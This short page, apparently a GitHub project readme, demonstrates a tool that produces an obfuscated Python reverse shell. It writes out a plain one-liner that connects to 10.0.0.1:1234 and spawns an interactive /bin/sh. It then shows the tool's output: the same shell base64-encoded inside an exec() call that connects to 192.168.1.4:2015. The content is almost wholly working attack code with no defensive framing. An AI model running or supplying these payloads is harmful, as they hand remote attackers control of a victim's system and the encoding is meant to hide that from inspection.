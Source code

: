 # python_fantan_shell_encode
base64 encoding this: python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


<p>
➜  Downloads  python netcat.py 192.168.1.4 2015
<p>
python -c "exec( __import__( 'base64' ).decodestring( 'cz1fX2ltcG9ydF9fKCdzb2NrZXQnKS5zb2NrZXQoX19pbXBvcnRfXygnc29ja2V0JykuQUZfSU5F\nVCxfX2ltcG9ydF9fKCdzb2NrZXQnKS5TT0NLX1NUUkVBTSk7IHMuY29ubmVjdCgoJzE5Mi4xNjgu\nMS40JywgMjAxNSkpOyBfX2ltcG9ydF9fKCdvcycpLmR1cDIocy5maWxlbm8oKSwwKTsgX19pbXBv\ncnRfXygnb3MnKS5kdXAyKHMuZmlsZW5vKCksMSk7IF9faW1wb3J0X18oJ29zJykuZHVwMihzLmZp\nbGVubygpLDIpOyBwPV9faW1wb3J0X18oJ3N1YnByb2Nlc3MnKS5jYWxsKFsnL2Jpbi9zaCcsJy1p\nJ10p\n' ) )"
